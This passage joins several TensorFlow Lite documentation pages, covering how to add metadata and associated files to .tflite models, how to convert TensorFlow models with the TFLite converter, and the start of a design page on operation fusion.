    [ModelMetadata](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L640).
2.  **Input information** - Description of the inputs and pre-processing
    required such as normalization. See
    [SubGraphMetadata.input_tensor_metadata](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L590).
3.  **Output information** - Description of the output and post-processing
    required such as mapping to labels. See
    [SubGraphMetadata.output_tensor_metadata](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L599).

Since TensorFlow Lite only supports single subgraph at this point, the
[TensorFlow Lite code generator](../inference_with_metadata/codegen.md#generate-code-with-tensorflow-lite-android-code-generator)
and the
[Android Studio ML Binding feature](../inference_with_metadata/codegen.md#generate-code-with-android-studio-ml-model-binding)
will use `ModelMetadata.name` and `ModelMetadata.description`, instead of
`SubGraphMetadata.name` and `SubGraphMetadata.description`, when displaying
metadata and generating code.

### Supported Input / Output types

TensorFlow Lite metadata for input and output are not designed with specific
model types in mind but rather input and output types. It does not matter what
the model functionally does, as long as the input and output types consists of
the following or a combination of the following, it is supported by TensorFlow
Lite metadata:

*   Feature - Numbers which are unsigned integers or float32.
*   Image - Metadata currently supports RGB and greyscale images.
*   Bounding box - Rectangular shape bounding boxes. The schema supports
    [a variety of numbering schemes](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L214).

### Pack the associated files

TensorFlow Lite models may come with different associated files. For example,
natural language models usually have vocab files that map word pieces to word
IDs; classification models may have label files that indicate object categories.
Without the associated files (if there are), a model will not function well.

The associated files can now be bundled with the model through the metadata
Python library. The new TensorFlow Lite model becomes a zip file that contains
both the model and the associated files. It can be unpacked with common zip
tools. This new model format keeps using the same file extension, `.tflite`. It
is compatible with existing TFLite framework and Interpreter. See
[Pack metadata and associated files into the model](#pack-metadata-and-associated-files-into-the-model)
for more details.

The associated file information can be recorded in the metadata. Depending on
the file type and where the file is attached to (i.e. `ModelMetadata`,
`SubGraphMetadata`, and `TensorMetadata`),
[the TensorFlow Lite Android code generator](../inference_with_metadata/codegen.md)
may apply corresponding pre/post processing automatically to the object. See
[the \<Codegen usage\> section of each associate file type](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L77-L127)
in the schema for more details.

### Normalization and quantization parameters

Normalization is a common data preprocessing technique in machine learning. The
goal of normalization is to change the values to a common scale, without
distorting differences in the ranges of values.

[Model quantization](https://www.tensorflow.org/lite/performance/model_optimization#model_quantization)
is a technique that allows for reduced precision representations of weights and
optionally, activations for both storage and computation.

In terms of preprocessing and post-processing, normalization and quantization
are two independent steps. Here are the details.

|                         | Normalization           | Quantization             |
| :---------------------: | ----------------------- | ------------------------ |
| \                       | **Float model**: \      | **Float model**: \       |
: An example of the       : - mean\: 127.5 \        : - zeroPoint\: 0 \        :
: parameter values of the : - std\: 127.5 \         : - scale\: 1.0 \          :
: input image in          : **Quant model**\: \     : **Quant model**\: \      :
: MobileNet for float and : - mean\: 127.5 \        : - zeroPoint\: 128.0 \    :
: quant models,           : - std\: 127.5           : - scale\:0.0078125f \    :
: respectively.           :                         :                          :
| \                       | \                       | **Float models** does    |
: \                       : \                       : not need quantization. \ :
: \                       : **Inputs**\: If input   : **Quantized model** may  :
: \                       : data is normalized in   : or may not need          :
: When to invoke?         : training, the input     : quantization in pre/post :
:                         : data of inference needs : processing. It depends   :
:                         : to be normalized        : on the datatype of       :
:                         : accordingly. \          : input/output tensors. \  :
:                         : **Outputs**\: output    : - float tensors\: no     :
:                         : data will not be        : quantization in pre/post :
:                         : normalized in general.  : processing needed. Quant :
:                         :                         : op and dequant op are    :
:                         :                         : baked into the model     :
:                         :                         : graph. \                 :
:                         :                         : - int8/uint8 tensors\:   :
:                         :                         : need quantization in     :
:                         :                         : pre/post processing.     :
| \                       | \                       | **Quantize for inputs**: |
: \                       : \                       : \                        :
: Formula                 : normalized_input =      : q = f / scale +          :
:                         : (input - mean) / std    : zeroPoint \              :
:                         :                         : **Dequantize for         :
:                         :                         : outputs**\: \            :
:                         :                         : f = (q - zeroPoint) *    :
:                         :                         : scale                    :
| \                       | Filled by model creator | Filled automatically by  |
: Where are the           : and stored in model     : TFLite converter, and    :
: parameters              : metadata, as            : stored in tflite model   :
:                         : `NormalizationOptions`  : file.                    :
| How to get the          | Through the             | Through the TFLite       |
: parameters?             : `MetadataExtractor` API : `Tensor` API [1] or      :
:                         : [2]                     : through the              :
:                         :                         : `MetadataExtractor` API  :
:                         :                         : [2]                      :
| Do float and quant      | Yes, float and quant    | No, the float model does |
: models share the same   : models have the same    : not need quantization.   :
: value?                  : Normalization           :                          :
:                         : parameters              :                          :
| Does TFLite Code        | \                       | \                        |
: generator or Android    : Yes                     : Yes                      :
: Studio ML binding       :                         :                          :
: automatically generate  :                         :                          :
: it in data processing?  :                         :                          :

[1] The
[TensorFlow Lite Java API](https://github.com/tensorflow/tensorflow/blob/09ec15539eece57b257ce9074918282d88523d56/tensorflow/lite/java/src/main/java/org/tensorflow/lite/Tensor.java#L73)
and the
[TensorFlow Lite C++ API](https://github.com/tensorflow/tensorflow/blob/09ec15539eece57b257ce9074918282d88523d56/tensorflow/lite/c/common.h#L391).
\
[2] The [metadata extractor library](#read-the-metadata-from-models)

When processing image data for uint8 models, normalization and quantization are
sometimes skipped. It is fine to do so when the pixel values are in the range of
[0, 255]. But in general, you should always process the data according to the
normalization and quantization parameters when applicable.

[TensorFlow Lite Task Library](https://www.tensorflow.org/lite/inference_with_metadata/overview)
can handle normalization for you if you set up `NormalizationOptions` in
metadata. Quantization and dequantization processing is always encapluated.

### Examples

Note: The export directory specified has to exist before you run the script; it
does not get created as part of the process.

You can find examples on how the metadata should be populated for different
types of models here:

#### Image classification

Download the script
[here](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/metadata/metadata_writer_for_image_classifier.py)
, which populates metadata to
[mobilenet_v1_0.75_160_quantized.tflite](https://tfhub.dev/tensorflow/lite-model/mobilenet_v1_0.75_160_quantized/1/default/1).
Run the script like this:

```sh
python ./metadata_writer_for_image_classifier.py \
    --model_file=./model_without_metadata/mobilenet_v1_0.75_160_quantized.tflite \
    --label_file=./model_without_metadata/labels.txt \
    --export_directory=model_with_metadata
```

To populate metadata for other image classification models, add the model specs
like
[this](https://github.com/tensorflow/examples/blob/master/lite/examples/image_classification/metadata/metadata_writer_for_image_classifier.py#L63-L74)
into the script. The rest of this guide will highlight some of the key sections
in the image classification example to illustrate the key elements.

### Deep dive into the image classification example

#### Model information

Metadata starts by creating a new model info:

```python
from tflite_support import flatbuffers
from tflite_support import metadata as _metadata
from tflite_support import metadata_schema_py_generated as _metadata_fb

""" ... """
"""Creates the metadata for an image classifier."""

# Creates model info.
model_meta = _metadata_fb.ModelMetadataT()
model_meta.name = "MobileNetV1 image classifier"
model_meta.description = ("Identify the most prominent object in the "
                          "image from a set of 1,001 categories such as "
                          "trees, animals, food, vehicles, person etc.")
model_meta.version = "v1"
model_meta.author = "TensorFlow"
model_meta.license = ("Apache License. Version 2.0 "
                      "http://www.apache.org/licenses/LICENSE-2.0.")
```

#### Input / output information

This section shows you how to describe your model's input and output signature.
This metadata may be used by automatic code generators to create pre- and post-
processing code. To create input or output information about a tensor:

```python
# Creates input info.
input_meta = _metadata_fb.TensorMetadataT()

# Creates output info.
output_meta = _metadata_fb.TensorMetadataT()
```

#### Image input

Image is a common input type for machine learning. TensorFlow Lite metadata
supports information such as colorspace and pre-processing information such as
normalization. The dimension of the image does not require manual specification
since it is already provided by the shape of the input tensor and can be
automatically inferred.

```python
input_meta.name = "image"
input_meta.description = (
    "Input image to be classified. The expected image is {0} x {1}, with "
    "three channels (red, blue, and green) per pixel. Each value in the "
    "tensor is a single byte between 0 and 255.".format(160, 160))
input_meta.content = _metadata_fb.ContentT()
input_meta.content.contentProperties = _metadata_fb.ImagePropertiesT()
input_meta.content.contentProperties.colorSpace = (
    _metadata_fb.ColorSpaceType.RGB)
input_meta.content.contentPropertiesType = (
    _metadata_fb.ContentProperties.ImageProperties)
input_normalization = _metadata_fb.ProcessUnitT()
input_normalization.optionsType = (
    _metadata_fb.ProcessUnitOptions.NormalizationOptions)
input_normalization.options = _metadata_fb.NormalizationOptionsT()
input_normalization.options.mean = [127.5]
input_normalization.options.std = [127.5]
input_meta.processUnits = [input_normalization]
input_stats = _metadata_fb.StatsT()
input_stats.max = [255]
input_stats.min = [0]
input_meta.stats = input_stats
```

#### Label output

Label can be mapped to an output tensor via an associated file using
`TENSOR_AXIS_LABELS`.

```python
# Creates output info.
output_meta = _metadata_fb.TensorMetadataT()
output_meta.name = "probability"
output_meta.description = "Probabilities of the 1001 labels respectively."
output_meta.content = _metadata_fb.ContentT()
output_meta.content.content_properties = _metadata_fb.FeaturePropertiesT()
output_meta.content.contentPropertiesType = (
    _metadata_fb.ContentProperties.FeatureProperties)
output_stats = _metadata_fb.StatsT()
output_stats.max = [1.0]
output_stats.min = [0.0]
output_meta.stats = output_stats
label_file = _metadata_fb.AssociatedFileT()
label_file.name = os.path.basename("your_path_to_label_file")
label_file.description = "Labels for objects that the model can recognize."
label_file.type = _metadata_fb.AssociatedFileType.TENSOR_AXIS_LABELS
output_meta.associatedFiles = [label_file]
```

#### Create the metadata Flatbuffers

The following code combines the model information with the input and output
information:

```python
# Creates subgraph info.
subgraph = _metadata_fb.SubGraphMetadataT()
subgraph.inputTensorMetadata = [input_meta]
subgraph.outputTensorMetadata = [output_meta]
model_meta.subgraphMetadata = [subgraph]

b = flatbuffers.Builder(0)
b.Finish(
    model_meta.Pack(b),
    _metadata.MetadataPopulator.METADATA_FILE_IDENTIFIER)
metadata_buf = b.Output()
```

#### Pack metadata and associated files into the model

Once the metadata Flatbuffers is created, the metadata and the label file are
written into the TFLite file via the `populate` method:

```python
populator = _metadata.MetadataPopulator.with_model_file(model_file)
populator.load_metadata_buffer(metadata_buf)
populator.load_associated_files(["your_path_to_label_file"])
populator.populate()
```

You can pack as many associated files as you want into the model through
`load_associated_files`. However, it is required to pack at least those files
documented in the metadata. In this example, packing the label file is
mandatory.

## Visualize the metadata

You can use [Netron](https://github.com/lutzroeder/netron) to visualize your
metadata, or you can read the metadata from a TensorFlow Lite model into a json
format using the `MetadataDisplayer`:

```python
displayer = _metadata.MetadataDisplayer.with_model_file(export_model_path)
export_json_file = os.path.join(FLAGS.export_directory,
                    os.path.splitext(model_basename)[0] + ".json")
json_file = displayer.get_metadata_json()
# Optional: write out the metadata as a json file
with open(export_json_file, "w") as f:
  f.write(json_file)
```

Android Studio also supports displaying metadata through the
[Android Studio ML Binding feature](https://developer.android.com/studio/preview/features#tensor-flow-lite-models).

## Metadata versioning

The
[metadata schema](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/metadata/metadata_schema.fbs)
is versioned both by the Semantic versioning number, which tracks the changes of
the schema file, and by the Flatbuffers file identification, which indicates the
true version compatibility.

### The Semantic versioning number

The metadata schema is versioned by the
[Semantic versioning number](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L53),
such as MAJOR.MINOR.PATCH. It tracks schema changes according to the rules
[here](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L32-L44).
See the
[history of fields](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L63)
added after version `1.0.0`.

### The Flatbuffers file identification

Semantic versioning guarantees the compatibility if following the rules, but it
does not imply the true incompatibility. When bumping up the MAJOR number, it
does not necessarily mean the backward compatibility is broken. Therefore, we
use the
[Flatbuffers file identification](https://google.github.io/flatbuffers/md__schemas.html),
[file_identifier](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L61),
to denote the true compatibility of the metadata schema. The file identifier is
exactly 4 characters long. It is fixed to a certain metadata schema and not
subject to change by users. If the backward compatibility of the metadata schema
has to be broken for some reason, the file_identifier will bump up, for example,
from “M001” to “M002”. File_identifier is expected to be changed much less
frequently than the metadata_version.

### The minimum necessary metadata parser version

The
[minimum necessary metadata parser version](https://github.com/tensorflow/tflite-support/blob/4cd0551658b6e26030e0ba7fc4d3127152e0d4ae/tensorflow_lite_support/metadata/metadata_schema.fbs#L681)
is the minimum version of metadata parser (the Flatbuffers generated code) that
can read the metadata Flatbuffers in full. The version is effectively the
largest version number among the versions of all the fields populated and the
smallest compatible version indicated by the file identifier. The minimum
necessary metadata parser version is automatically populated by the
`MetadataPopulator` when the metadata is populated into a TFLite model. See the
[metadata extractor](#read-the-metadata-from-models) for more information on how
the minimum necessary metadata parser version is used.

## Read the metadata from models

The Metadata Extractor library is convenient tool to read the metadata and
associated files from a models across different platforms (see the
[Java version](https://github.com/tensorflow/tflite-support/tree/master/tensorflow_lite_support/metadata/java)
and the
[C++ version](https://github.com/tensorflow/tflite-support/tree/master/tensorflow_lite_support/metadata/cc)).
You can build your own metadata extractor tool in other languages using the
Flatbuffers library.

### Read the metadata in Java

To use the Metadata Extractor library in your Android app, we recommend using
the
[TensorFlow Lite Metadata AAR hosted at MavenCentral](https://search.maven.org/artifact/org.tensorflow/tensorflow-lite-metadata).
It contains the `MetadataExtractor` class, as well as the FlatBuffers Java
bindings for the
[metadata schema](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/metadata/metadata_schema.fbs)
and the
[model schema](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/schema/schema.fbs).

You can specify this in your `build.gradle` dependencies as follows:

```build
dependencies {
    implementation 'org.tensorflow:tensorflow-lite-metadata:0.1.0'
}
```

To use nightly snapshots, make sure that you have added
[Sonatype snapshot repository](../guide/build_android#use_nightly_snapshots).

You can initialize a `MetadataExtractor` object with a `ByteBuffer` that points
to the model:

```java
public MetadataExtractor(ByteBuffer buffer);
```

The `ByteBuffer` must remain unchanged for the entire lifetime of the
`MetadataExtractor` object. The initialization may fail if the Flatbuffers file
identifier of the model metadata does not match that of the metadata parser. See
[metadata versioning](#metadata-versioning) for more information.

With matching file identifiers, the metadata extractor will successfully read
metadata generated from all past and future schema due to the Flatbuffers'
forwards and backward compatibility mechanism. However, fields from future
schemas cannot be extracted by older metadata extractors. The
[minimum necessary parser version](#the-minimum-necessary-metadata-parser-version)
of the metadata indicates the minimum version of metadata parser that can read
the metadata Flatbuffers in full. You can use the following method to verify if
the minimum necessary parser version condition is met:

```java
public final boolean isMinimumParserVersionSatisfied();
```

Passing in a model without metadata is allowed. However, invoking methods that
read from the metadata will cause runtime errors. You can check if a model has
metadata by invoking the `hasMetadata` method:

```java
public boolean hasMetadata();
```

`MetadataExtractor` provides convenient functions for you to get the
input/output tensors' metadata. For example,

```java
public int getInputTensorCount();
public TensorMetadata getInputTensorMetadata(int inputIndex);
public QuantizationParams getInputTensorQuantizationParams(int inputIndex);
public int[] getInputTensorShape(int inputIndex);
public int getoutputTensorCount();
public TensorMetadata getoutputTensorMetadata(int inputIndex);
public QuantizationParams getoutputTensorQuantizationParams(int inputIndex);
public int[] getoutputTensorShape(int inputIndex);
```

Though the
[TensorFlow Lite model schema](https://github.com/tensorflow/tensorflow/blob/aa7ff6aa28977826e7acae379e82da22482b2bf2/tensorflow/lite/schema/schema.fbs#L1075)
supports multiple subgraphs, the TFLite Interpreter currently only supports a
single subgraph. Therefore, `MetadataExtractor` omits subgraph index as an input
argument in its methods.

## Read the associated files from models

The TensorFlow Lite model with metadata and associated files is essentially a
zip file that can be unpacked with common zip tools to get the associated files.
For example, you can unzip
[mobilenet_v1_0.75_160_quantized](https://tfhub.dev/tensorflow/lite-model/mobilenet_v1_0.75_160_quantized/1/metadata/1)
and extract the label file in the model as follows:

```sh
$ unzip mobilenet_v1_0.75_160_quantized_1_metadata_1.tflite
Archive:  mobilenet_v1_0.75_160_quantized_1_metadata_1.tflite
 extracting: labels.txt
```

You can also read associated files through the Metadata Extractor library.

In Java, pass the file name into the `MetadataExtractor.getAssociatedFile`
method:

```java
public InputStream getAssociatedFile(String fileName);
```

Similarily, in C++, this can be done with the method,
`ModelMetadataExtractor::GetAssociatedFile`:

```c++
tflite::support::StatusOr<absl::string_view> GetAssociatedFile(
      const std::string& filename) const;
```
# TensorFlow Lite converter

The TensorFlow Lite converter takes a TensorFlow model and generates a
TensorFlow Lite model (an optimized
[FlatBuffer](https://google.github.io/flatbuffers/) format identified by the
`.tflite` file extension). You have the following two options for using the
converter:

1.  [Python API](#python_api) (***recommended***): This makes it easier to
    convert models as part of the model development pipeline, apply
    optimizations, add metadata and has many more features.
2.  [Command line](#cmdline): This only supports basic model conversion.

Note: In case you encounter any issues during model conversion, create a
[GitHub issue](https://github.com/tensorflow/tensorflow/issues/new?template=60-tflite-converter-issue.md).


## Python API <a name="python_api"></a>

*Helper code: To identify the installed TensorFlow version, run
`print(tf.__version__)` and to learn more about the TensorFlow Lite converter
API, run `print(help(tf.lite.TFLiteConverter))`.*

If you've
[installed TensorFlow 2.x](https://www.tensorflow.org/install/pip#tensorflow-2-packages-are-available),
you have the following two options: (*if you've
[installed TensorFlow 1.x](https://www.tensorflow.org/install/pip#older-versions-of-tensorflow),
refer to
[Github](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/r1/convert/python_api.md)*)

*   Convert a TensorFlow 2.x model using
    [`tf.lite.TFLiteConverter`](https://www.tensorflow.org/api_docs/python/tf/lite/TFLiteConverter).
    A TensorFlow 2.x model is stored using the SavedModel format and is
    generated either using the high-level `tf.keras.*` APIs (a Keras model) or
    the low-level `tf.*` APIs (from which you generate concrete functions). As a
    result, you have the following three options (examples are in the next few
    sections):

    *   `tf.lite.TFLiteConverter.from_saved_model()` (**recommended**): Converts
        a [SavedModel](https://www.tensorflow.org/guide/saved_model).
    *   `tf.lite.TFLiteConverter.from_keras_model()`: Converts a
        [Keras](https://www.tensorflow.org/guide/keras/overview) model.
    *   `tf.lite.TFLiteConverter.from_concrete_functions()`: Converts
        [concrete functions](https://www.tensorflow.org/guide/intro_to_graphs).

*   Convert a TensorFlow 1.x model using
    [`tf.compat.v1.lite.TFLiteConverter`](https://www.tensorflow.org/api_docs/python/tf/compat/v1/lite/TFLiteConverter)
    (examples are on
    [Github](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/r1/convert/python_api.md)):

    *   `tf.compat.v1.lite.TFLiteConverter.from_saved_model()`: Converts a
        [SavedModel](https://www.tensorflow.org/guide/saved_model).
    *   `tf.compat.v1.lite.TFLiteConverter.from_keras_model_file()`: Converts a
        [Keras](https://www.tensorflow.org/guide/keras/overview) model.
    *   `tf.compat.v1.lite.TFLiteConverter.from_session()`: Converts a GraphDef
        from a session.
    *   `tf.compat.v1.lite.TFLiteConverter.from_frozen_graph()`: Converts a
        Frozen GraphDef from a file. If you have checkpoints, then first convert
        it to a Frozen GraphDef file and then use this API as shown
        [here](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/r1/convert/python_api.md#checkpoints).

Note: The following sections assume you've both installed TensorFlow 2.x and
trained models in TensorFlow 2.x.

### Convert a SavedModel (recommended) <a name="saved_model"></a>

The following example shows how to convert a
[SavedModel](https://www.tensorflow.org/guide/saved_model) into a TensorFlow
Lite model.

```python
import tensorflow as tf

# Convert the model
converter = tf.lite.TFLiteConverter.from_saved_model(saved_model_dir) # path to the SavedModel directory
tflite_model = converter.convert()

# Save the model.
with open('model.tflite', 'wb') as f:
  f.write(tflite_model)
```

### Convert a Keras model <a name="keras"></a>

The following example shows how to convert a
[Keras](https://www.tensorflow.org/guide/keras/overview) model into a TensorFlow
Lite model.

```python
import tensorflow as tf

# Create a model using high-level tf.keras.* APIs
model = tf.keras.models.Sequential([
    tf.keras.layers.Dense(units=1, input_shape=[1]),
    tf.keras.layers.Dense(units=16, activation='relu'),
    tf.keras.layers.Dense(units=1)
])
model.compile(optimizer='sgd', loss='mean_squared_error') # compile the model
model.fit(x=[-1, 0, 1], y=[-3, -1, 1], epochs=5) # train the model
# (to generate a SavedModel) tf.saved_model.save(model, "saved_model_keras_dir")

# Convert the model.
converter = tf.lite.TFLiteConverter.from_keras_model(model)
tflite_model = converter.convert()

# Save the model.
with open('model.tflite', 'wb') as f:
  f.write(tflite_model)
```

### Convert concrete functions <a name="concrete_function"></a>

The following example shows how to convert
[concrete functions](https://www.tensorflow.org/guide/intro_to_graphs) into a
TensorFlow Lite model.

```python
import tensorflow as tf

# Create a model using low-level tf.* APIs
class Squared(tf.Module):
  @tf.function(input_signature=[tf.TensorSpec(shape=[None], dtype=tf.float32)])
  def __call__(self, x):
    return tf.square(x)
model = Squared()
# (ro run your model) result = Squared(5.0) # This prints "25.0"
# (to generate a SavedModel) tf.saved_model.save(model, "saved_model_tf_dir")
concrete_func = model.__call__.get_concrete_function()

# Convert the model.
# Notes that for the versions earlier than TensorFlow 2.7, the
# from_concrete_functions API is able to work when there is only the first
# argument given:
# > converter = tf.lite.TFLiteConverter.from_concrete_functions([concrete_func])
converter = tf.lite.TFLiteConverter.from_concrete_functions([concrete_func],
                                                            model)
tflite_model = converter.convert()

# Save the model.
with open('model.tflite', 'wb') as f:
  f.write(tflite_model)
```

### Other features

*   Apply [optimizations](../performance/model_optimization.md). A common
    optimization used is
    [post training quantization](../performance/post_training_quantization.md),
    which can further reduce your model latency and size with minimal loss in
    accuracy.

*   Add [metadata](metadata.md), which makes it easier to create platform
    specific wrapper code when deploying models on devices.

### Conversion errors

The following are common conversion errors and their solutions:

*   Error: `Some ops are not supported by the native TFLite runtime, you can
    enable TF kernels fallback using TF Select. See instructions:
    https://www.tensorflow.org/lite/guide/ops_select. TF Select ops: ..., ..,
    ...`

    Solution: The error occurs as your model has TF ops that don't have a
    corresponding TFLite implementation. You can resolve this by
    [using the TF op in the TFLite model](../guide/ops_select.md) (recommended).
    If you want to generate a model with TFLite ops only, you can either add a
    request for the missing TFLite op in
    [Github issue #21526](https://github.com/tensorflow/tensorflow/issues/21526)
    (leave a comment if your request hasn’t already been mentioned) or
    [create the TFLite op](../guide/ops_custom#create_and_register_the_operator)
    yourself.

*   Error: `.. is neither a custom op nor a flex op`

    Solution: If this TF op is:

    *   Supported in TF: The error occurs because the TF op is missing from the
        [allowlist](../guide/op_select_allowlist.md) (an exhaustive list of TF
        ops supported by TFLite). You can resolve this as follows:

        1.  [Add missing ops to the allowlist](../guide/op_select_allowlist.md#add_tensorflow_core_operators_to_the_allowed_list).
        2.  [Convert the TF model to a TFLite model and run inference](../guide/ops_select.md).

    *   Unsupported in TF: The error occurs because TFLite is unaware of the
        custom TF operator defined by you. You can resolve this as follows:

        1.  [Create the TF op](https://www.tensorflow.org/guide/create_op).
        2.  [Convert the TF model to a TFLite model](../guide/op_select_allowlist.md#users_defined_operators).
        3.  [Create the TFLite op](../guide/ops_custom.md#create_and_register_the_operator)
            and run inference by linking it to the TFLite runtime.

## Command Line Tool <a name="cmdline"></a>

**It is highly recommended that you use the [Python API](#python_api) listed
above instead, if possible.**

If you've
[installed TensorFlow 2.x from pip](https://www.tensorflow.org/install/pip), use
the `tflite_convert` command as follows: (*if you've
[installed TensorFlow 2.x from source](https://www.tensorflow.org/install/source)
then you can replace '`tflite_convert`' with '`bazel run
//tensorflow/lite/python:tflite_convert --`' in the following
sections, and if you've
[installed TensorFlow 1.x](https://www.tensorflow.org/install/pip#older-versions-of-tensorflow)
then refer to Github
([reference](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/r1/convert/cmdline_reference.md),
[examples](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/r1/convert/cmdline_examples.md)))*

`tflite_convert`: To view all the available flags, use the following command:

```sh
$ tflite_convert --help

`--output_file`. Type: string. Full path of the output file.
`--saved_model_dir`. Type: string. Full path to the SavedModel directory.
`--keras_model_file`. Type: string. Full path to the Keras H5 model file.
`--enable_v1_converter`. Type: bool. (default False) Enables the converter and flags used in TF 1.x instead of TF 2.x.

You are required to provide the `--output_file` flag and either the `--saved_model_dir` or `--keras_model_file` flag.
```

### Converting a SavedModel <a name="cmdline_saved_model"></a>

```sh
tflite_convert \
  --saved_model_dir=/tmp/mobilenet_saved_model \
  --output_file=/tmp/mobilenet.tflite
```

### Converting a Keras H5 model <a name="cmdline_keras_model"></a>

```sh
tflite_convert \
  --keras_model_file=/tmp/mobilenet_keras_model.h5 \
  --output_file=/tmp/mobilenet.tflite
```

## Next Steps

Use the [TensorFlow Lite interpreter](../guide/inference.md) to run inference on
a client device (e.g. mobile, embedded).
# TensorFlow operation fusion

## Overview

This page describes the design and steps needed to convert composite operations
in TensorFlow to fused operations in TensorFlow Lite. This infrastructure is
general purpose and supports conversion of any composite operation in TensorFlow
to a corresponding fused operation in TensorFlow Lite.

An example use of this infrastructure is TensorFlow RNN operation fusion to
TensorFlow Lite, as detailed
[here](https://www.tensorflow.org/lite/convert/rnn).

### What are fused operations


TensorFlow operations can either be primitive ops e.g.
[tf.add](https://www.tensorflow.org/api_docs/python/tf/math/add) or they can be
composed from other primitive operations e.g.
[tf.einsum](https://www.tensorflow.org/api_docs/python/tf/einsum). A primitive
operation shows up as a single node in the TensorFlow graph while.a composite
operation is a collection of nodes in the TensorFlow graph. Executing a
composite operation is equivalent to executing each of its constituent primitive
operations.

A fused operation corresponds to a single operation that subsumes all the
computation performed by each primitive operation within the corresponding
composite operation.

### Benefits of fused operations

Fused operations exist to maximize the performance of their underlying kernel
implementations, by optimizing the overall computation and reducing memory
footprint. This is very valuable, especially for low-latency inference workloads
and resource constrained mobile platforms.

Fused operations also provide a higher level interface to define complex
transformations like quantization, which would otherwise be infeasible or very
hard to do at a more granular level.

TensorFlow Lite has many instances of fused operations for the reasons
articulated above. These fused operations typically correspond to composite
operations in the source TensorFlow program. Examples of composite operations in
TensorFlow that are implemented as a single fused operation in TensorFlow Lite
include various RNN operations like Unidirectional and Bidirectional sequence
LSTM, convolution (conv2d, bias add, relu), fully connected (matmul, bias add,
relu) and more. In TensorFlow Lite, LSTM quantization is currently only
implemented in the fused LSTM operations.

### Challenges with fused operations

Converting composite operations from TensorFlow to fused operations in
TensorFlow Lite is a hard problem. This is because:

1.  Composite operations are represented in the TensorFlow graph as a set of
    primitive operations without a well defined boundary. It can be very
    challenging to identify (e.g. via pattern matching) the sub-graph
    corresponding to such a composite operation.

1.  There may be more than one TensorFlow implementation targeting a fused
    TensorFlow Lite operation. For example, there are many LSTM implementations
    in TensorFlow (Keras, Babelfish/lingvo etc) and each of these is composed of
    different primitive operations but they all could still be converted to the
    same fused LSTM operation in TensorFlow Lite.

As such, conversion of fused operations has proven quite challenging.

## Converting from composite to fused operation

The overall architecture for converting TensorFlow composite operations to
TensorFlow Lite fused operations is below:


### Wrap the composite operation in a `tf.function`

In the TensorFlow model source code, identify and abstract out the composite
operation into a `tf.function` with the
[experimental\_implements](https://github.com/tensorflow/tensorflow/blob/c11d5d8881fd927165eeb09fd524a80ebaf009f2/tensorflow/python/eager/def_function.py#L470)
function annotation. See an example of [embedding lookup](#composing_ops). The
function defines the interface and its arguments should be used to implement the
conversion logic.

### Write conversion code

The conversion code is written per the interface of the function with the
`implements` annotation. See an example fusion for
[embedding lookup](#fusion_code). Conceptually, the conversion code replaces the
composite implementation of this interface with the fused one.

In the prepare-composite-functions pass, plugin in your
[conversion code](https://github.com/tensorflow/tensorflow/blob/c11d5d8881fd927165eeb09fd524a80ebaf009f2/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L115).

In more advanced usages, it is possible to implement complex transformations of
the composite operation's operands in order to derive the operands of the fused
operation. See
[Keras LSTM](https://github.com/tensorflow/tensorflow/blob/1099faa8d6a941ef44d09ed8c372ff0ffda94112/tensorflow/compiler/mlir/lite/utils/lstm_utils.cc#L627).
conversion code as an example.

### Convert to TensorFlow Lite

Use the
[TFLiteConverter.from_saved_model](https://www.tensorflow.org/api_docs/python/tf/lite/TFLiteConverter#from_saved_model)
API to convert to TensorFlow Lite.

## Under the hood

<a id="under_the_hood"></a>

We now describe high level details of the overall design in converting to fused
operations in TensorFlow Lite.

### Composing operations in TensorFlow

<a id="composing_ops"></a>

The use of `tf.function` with the
[experimental\_implements](https://github.com/tensorflow/tensorflow/blob/c11d5d8881fd927165eeb09fd524a80ebaf009f2/tensorflow/python/eager/def_function.py#L470)
function attribute allows users to explicitly compose new operations using
TensorFlow primitive operations and specify the interface that the resultant
composite operation implements. This is very useful as it provides:

1.  A well-defined boundary for the composite operation in the underlying
    TensorFlow graph.
1.  Explicitly specify the interface that this operation implements. The
    arguments of the `tf.function` correspond to the arguments of this
    interface.

As an example, let’s consider a composite operation defined to implement
embedding lookup. This maps to a fused operation in TensorFlow Lite.

```python
  @tf.function(
        experimental_implements="embedding_lookup")
    def EmbFprop(embs, ids_vec):
      """Embedding forward prop.

      Effectively, it computes:
        num = size of ids_vec
        rets = zeros([num, embedding dim])
        for i in range(num):
          rets[i, :] = embs[ids_vec[i], :]
        return rets

      Args:
        embs: The embedding matrix.
        ids_vec: A vector of int32 embedding ids.

      Returns:
        The result of embedding lookups. A matrix of shape
        [num ids in ids_vec, embedding dims].
      """
      num = tf.shape(ids_vec)[0]
